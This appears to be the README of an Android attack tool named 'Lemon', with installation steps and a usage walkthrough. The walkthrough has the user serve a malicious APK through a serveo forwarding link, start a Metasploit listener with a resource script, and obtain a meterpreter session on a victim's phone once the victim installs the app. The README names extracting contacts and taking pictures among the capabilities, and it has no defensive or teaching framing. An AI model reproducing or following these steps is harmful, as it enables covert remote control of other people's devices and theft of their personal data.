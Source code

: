 **Requirements :-**

1.Metasploit-Framework

2.PHP

3.Openssh


**Installation :-**

1.Install git by typing "pkg install git"

2.Download Lemon by typing "git clone https://github.com/Lemon-Hacking/Lemon

3.Install it by executing "cd $HOME/Lemon && sh Install" without quotes.

**How to use :-**

1. Start the script by executing 'python attack.py'

2. Once the script completes, copy the link you got under "Forwarding HTTP port.." and put your payload's name after it, for example : https://lente.serveo.net/lemon.apk, this link downloads the malicious apk when opened.

 3.Open up a new session, and type "msfconsole -r automate.rc", this should start metasploit and   provide it necessary options. Once it stops, type "run" and press enter, this will start the   listener.

4. When the target installs and open the apk using your link, you will get a meterpreter session in your listener.

5. Bow you can type 'help' for a list of options, example extract contacts, snap a picture etc.

